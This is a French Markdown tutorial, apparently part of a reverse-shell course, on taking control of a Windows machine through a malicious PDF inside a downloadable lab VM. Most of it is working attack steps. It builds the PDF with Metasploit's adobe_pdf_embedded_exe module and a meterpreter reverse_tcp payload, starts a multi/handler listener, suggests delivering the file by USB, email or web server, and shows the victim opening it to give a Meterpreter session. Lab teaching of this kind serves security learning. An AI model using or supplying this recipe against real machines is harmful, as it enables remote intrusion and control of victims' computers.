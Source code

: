 # Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk)

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez search windows fileformat pdf. Vous aurez un résultat comme ci dessous :

![image search](images/reverse_shell/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez set LHOST x.x.x.x en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez set LPORT xxx en remplaçant xxx par le port de votre choix (par exemple, set LPORT 4444).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant set FILENAME xxxx.pdf en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 
![image listener](./images/listener.png)
avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez help pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !